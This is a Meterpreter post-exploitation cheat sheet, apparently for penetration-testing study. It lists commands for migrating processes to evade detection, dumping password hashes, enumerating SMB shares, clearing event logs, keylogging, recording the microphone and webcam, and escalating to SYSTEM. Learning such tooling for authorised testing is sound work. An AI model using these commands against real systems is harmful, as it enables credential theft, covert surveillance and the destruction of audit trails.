    

Meterpreter

# 🚀 Meterpreter Essentials

## 🎯 1. Basic info gathering

- **`sysinfo`**  
    Shows system details (OS, architecture, domain, users).
    
    meterpreter > sysinfo
    
    ```
    meterpreter > sysinfo
    ```
    
- **`getuid`**  
    Shows which user the Meterpreter session is running under.
    
    meterpreter > getuid
    
    ```
    meterpreter > getuid
    ```
    
- **`ps`**  
    Lists running processes (to find PIDs for migration).
    
    meterpreter > ps
    
    ```
    meterpreter > ps
    ```
    

---

## 📂 2. Migrating to another process

Used to stabilize the session or evade detection.

meterpreter > migrate <pid>

```
meterpreter > migrate <pid>
```

Example:

meterpreter > migrate 768

```
meterpreter > migrate 768
```

---

## 🔍 3. Dumping hashes

Extracts local password hashes (SAM database).

meterpreter > hashdump

```
meterpreter > hashdump
```

---

## 📡 4. Finding SMB shares

Run from MSF console:

msf6 > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set session <id>
msf6 post(windows/gather/enum_shares) > run

```
msf6 > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set session <id>
msf6 post(windows/gather/enum_shares) > run
```

Example output:

- `SYSVOL`, `NETLOGON`: typical domain shares.
    
- `speedster`: possible custom share.
    

---

## 💻 5. Upgrading shells

If you get a simple cmd shell and want to upgrade to Meterpreter:

meterpreter > sessions -u <session_id>

```
meterpreter > sessions -u <session_id>
```

Or run `shell_to_meterpreter` script.

---

## 🛠 6. Meterpreter core commands

Run `help` to list them.

meterpreter > help

```
meterpreter > help
```

Some essentials:

|Command|Description|
|---|---|
|`background`|Sends session to background|
|`sessions`|Lists/switches sessions|
|`exit`|Ends the session|
|`load`|Loads extensions (e.g. `load kiwi`)|
|`run`|Executes Meterpreter scripts or modules|

---

## 📁 7. File system commands

|Command|Description|
|---|---|
|`ls`|List files in current dir|
|`cd`|Change directory|
|`pwd`|Print current directory|
|`cat <file>`|View file contents|
|`download`|Download file/directory|
|`upload`|Upload file/directory|
|`search`|Search for files|
|`rm <file>`|Delete file|

---

## 🌐 8. Network commands

|Command|Description|
|---|---|
|`ifconfig`|Show network interfaces|
|`netstat`|List network connections|
|`arp`|Show ARP table|
|`route`|View/modify routing table|
|`portfwd`|Set up local->remote port forward|

---

## ⚙️ 9. System commands

|Command|Description|
|---|---|
|`execute`|Run a system command|
|`shell`|Drop to normal cmd shell|
|`getpid`|Get current PID|
|`kill <pid>`|Kill process|
|`clearev`|Clear event logs|
|`shutdown` / `reboot`|Power off or restart|

---

## 🎥 10. Other powerful options

|Command|Description|
|---|---|
|`screenshot`|Capture screen|
|`keyscan_start`|Start keylogging|
|`keyscan_dump`|Dump keystrokes|
|`record_mic`|Record from microphone|
|`webcam_snap`|Take a webcam picture|
|`getsystem`|Try to elevate to SYSTEM privilege|

---

✅ **Quick notes**

- Always run `help` to see available commands (they change based on OS & Meterpreter payload).
    
- If a command fails, check your privileges or try migrating to another process.
    
- Many advanced modules (hashdump, getsystem, kiwi, webcam) may require **SYSTEM privileges**.